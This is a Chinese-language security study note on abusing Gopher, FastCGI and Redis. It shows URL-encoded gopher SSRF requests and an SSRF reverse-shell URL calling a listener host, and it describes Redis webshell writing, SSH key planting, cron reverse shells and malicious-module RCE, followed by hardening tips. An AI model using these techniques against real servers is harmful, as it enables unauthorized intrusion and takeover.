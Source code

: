 title: 协议拓展
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-07-08 03:03:00
---
### Gopher协议
#### 概述
在WWW出现之前，Gopher是Internet上最主要的信息检索工具
GOPHER协议是一种比HTTP协议还要古老的协议，默认工作端口70
GOPHER协议可以以单个URL的形式传递POST请求，同时支持换行（能换行就有很大操作空间）

#### 协议格式
```
URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
注意要有一个_，这个符号可以换成任意一个字符
```

#### GET请求
准备好请求数据
```
GET /testg.php?name=xxx HTTP/1.1
Host: 10.211.55.2
```
用BP全编码
```
%47%45%54%20%2f%74%......
```
加上格式
```
gopher://10.211.55.2:80/_%47%45%54%20%2f%74%......
```
***编码的时候在最后一定要补%0d%0a代表结束
问号需要转码为URL编码，也就是%3f***

#### POST请求
准备好请求数据
```
POST /testg.php HTTP/1.1
Host: 10.211.55.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
 
name=xxx
```
用BP全编码
```
%50%4f%53%54%20%2f%74%65%73%7......
```
加上格式
```
gopher://10.211.55.2:80/_%50%4f%53%54%20%2f%74%65%73%7......
```
***编码的时候在最后一定要补%0d%0a代表结束
问号需要转码为URL编码，也就是%3f***

#### 漏洞原理
协议可以几乎无限制地传输各种数据

#### 漏洞利用
反弹shell
```
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.119:6666/_abc
```
[监测及RCE工具](https://gitcode.net/mirrors/tarunkant/Gopherus?utm_source=csdn_github_accelerator)

### FastCGI协议
#### 概述
FastCGI协议和HTTP协议一样是通信协议
http是浏览器（也就是客户端）和服务器中间件之间通信的协议，而FastCGI协议是服务器中间件和某种语言编写的正在运行的后端程序间的通信协议。
它支持分布式的运算，所以 FastCGI 程序可以在网站服务器以外的主机上执行，并且可以接受来自其它网站服务器的请求
FastCGI将CGI解释器进程保持在内存中，以此获得较高的性能

#### 工作流程
<a href="https://smms.app/image/oWEr76O4A5hLaJj" target="_blank"><img src="https://s2.loli.net/2023/07/08/oWEr76O4A5hLaJj.png" ></a>


#### 漏洞原理
PHP-FPM（fastcgi进程管理器）默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信

#### 漏洞利用
1. 需要一个php文件，首选/var/www/html/index.php
2. 然后要在PHP.INI中打开配置项auto_prepend_file和auto_append_file
3. 接着使用上面说的那个Gopherus工具生成payload
4. 根据配置文件Web Server辨别不是静态文件，此时就需要去找 PHP解析器来处理
5. Web Server收到 index.php 这个请求后，会启动对应的CGI 程序，也就是PHP解析器
6. PHP解析器会解析php.ini文件，然后就执行完一整个工作流程返回数据

### Redis协议
#### 概述
redis是一个key-value存储系统
它对数据支持复杂的操作、支持各种不同方式的排序、为了保证效率数据缓存在内存中
redis数据库一种，默认绑定在0.0.0.0:6379，攻击者直接可以访问到
默认无密码，登录账户为root

#### 存在漏洞
1. 未授权访问
2. 访问敏感文件
3. root权限写入webshell
4. root权限写入公私钥

#### 漏洞原理
能访问到、能登录、能写入（有root）
1. 开放在公网，没有和ip绑定，默认无密码
2. root权限
3. webshell和公私钥匙通信原理
4. 有可能把redis的默认端口6379修改

#### 漏洞利用
##### Redis未授权访问
Redis默认情况下，会绑定在0.0.0.0:6379
如果没有配置非信任来源的IP访问限制，就会将Redis服务暴露在公网上
如果没有设置密码认证（一般为空）的情况下，会导致任意用户可以访问目标服务器下未授权访问Redis以及读取Redis数据

##### Redis写入Webshell
如果存在未授权访问，并且开启了web服务，知道了web目录的路径，并具有文件读写增删改查的权限
即可通过redis在指定的web目录下写入一句话木马，用菜刀连接可达到控制服务器的目的

##### Redis密钥登录SSH
redis对外开放，且是未授权访问状态，并且redis服务ssh对外开放，可以通过key登入时
在数据库中插入一条数据，将本机的公钥作为value，key值随意
然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys
把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生成一个授权的key

##### 利用计划任务反弹shell
利用Redis未授权漏洞，可以通过写入文件到系统计划任务目录 /var/spool/cron下来执行

##### 远程主从复制RCE
4.x、5.x版本中，Redis提供了主从模式
主从模式指使用一个redis作为主机，其他的作为备份机，主机从机数据都是一样的，从机负责读，主机只负责写
通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式
在redis 4.x之后，通过外部拓展可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件
在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。然后在从机上加载恶意so文件，即可执行命令
缺点是如果目标机子只允许本地登录，则这种利用方法就不行了

##### 本地Redis主从复制RCE反弹shell
对于只允许本地连接的Redis服务器，可以通过开启主从模式从远程主机上同步恶意.so文件至本地，接着载入恶意.so文件模块，反弹shell至远程主机。

#### 防护措施
redis的安全设置：设置完毕，需要重加载配置文件启动redis
1. 绑定内网ip地址进行访问
2. requirepass设置redis密码
3. 保护模式开启protected-mode开启（默认开启）
4. 最好把端口更改
5. 单独为redis设置一个普通账号，启动redis